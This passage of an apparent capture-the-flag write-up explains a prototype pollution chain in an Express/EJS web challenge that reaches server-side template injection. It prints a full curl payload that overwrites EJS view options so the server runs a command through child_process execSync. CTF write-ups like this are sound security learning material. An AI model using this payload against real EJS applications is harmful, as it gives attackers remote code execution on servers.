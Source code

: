 Because the `data` object is derived from `let strings = params.v;` (thus from user input), we can manipulate the input so that we can use the prototype pollution to overwrite the `view options` [^issue], which in turn will allow js injection in the compiled ejs templates (SSTI). With a cache reset we can then force a new compilation of the template.

[^issue]: https://github.com/mde/ejs/issues/735

```bash
curl -G 'http://4xexs7xetdsz825dx0oqig9rlxrd2u.perfectproduct.web.jctf.pro/product' --data-urlencode 'v[__proto__]=1' --data-urlencode 'v[__proto__]=1' --data-urlencode 'v[__proto__]=1' --data-urlencode 'v[__proto__]=1' --data-urlencode 'v[__proto__]=1' --data-urlencode 'v[_proto__][settings][view%20options][client]=1' --data-urlencode 'v[_proto__][settings][view%20options][escapeFunction]=1;return global.process.mainModule.constructor._load("child_process").execSync("/readflag");' --data-urlencode 'v[_proto__][cache]=' -v
```

>[!fail] Flag
>N/A

[^1]: https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce
[^2]: https://ejs.co/#docs
[^3]: https://eslam.io/posts/ejs-server-side-template-injection-rce/
[^4]: https://expressjs.com/en/api.html#res.render
[^5]: https://github.com/mde/ejs/wiki/Using-EJS-with-Express#passing-opts-with-data
[^6]: https://securitylab.github.com/advisories/GHSL-2021-021-tj-ejs/